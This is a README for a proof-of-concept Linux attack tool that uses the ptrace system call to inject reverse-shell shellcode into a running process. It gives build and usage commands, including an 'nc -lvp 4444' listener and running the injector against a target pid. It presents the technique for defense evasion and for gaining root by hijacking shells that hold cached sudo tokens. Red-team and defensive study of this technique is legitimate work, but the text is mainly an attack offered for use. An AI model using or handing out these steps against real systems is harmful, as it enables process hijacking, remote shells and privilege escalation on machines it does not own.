 # Linux Process Code Injection using ptrace syscall
Proof of concept code to use ptrace on Linux systems for injecting code in an existing process. It attaches to the given pid, halts it's execuation, backs up current instructions, injects shellcode (which forks a child process) and resumes the execution from the backed up instructions.

### Usage

- Compile shell code

```
as reverse_shell.s -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```
- Get the shellcode with gdb

```
gdb ./reverse_shellcode

(gdb) x/185bx _start+0

```
- Modify shellcode in `ptrace_injection.c` and compile

```
gcc ptrace_injection.c -o ptrace_injection
```
- Setup reverse shell listener and run against a target pid

```
nc -lvp 4444
```

```
./ptrace_injection 1234
```


### Details

Linux comes with an interesting system call `ptrace` which can be abused to elevate privileges and steal sensitive information. It provides a means by which one process (the "tracer") may observe and control the execution of another process (the "tracee"), and examine and change the tracee's memory and registers.

With `ptrace` we can write data into the process effectively achieving the ability to inject code into an existing process. This can be very handy for defense evasion and potentially achieve privilege escalation. 

By default many distributions have sudo caching enabled. When a shell process invokes sudo, system caches the password in the form of a token which is valid for certain amount of time so password is not required for any further sudo commands invoked by the same shell until the timer expires. By injecting our shell-code into such shell process, we can effectively become root.
